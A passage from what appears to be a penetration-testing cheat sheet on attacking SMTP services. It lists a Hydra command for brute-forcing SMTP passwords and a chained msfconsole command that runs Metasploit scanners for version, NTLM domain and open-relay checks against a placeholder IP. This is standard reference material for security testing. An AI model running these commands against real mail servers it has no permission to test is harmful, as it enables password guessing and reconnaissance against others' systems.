Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
{{#include ../../banners/hacktricks-training.md}}
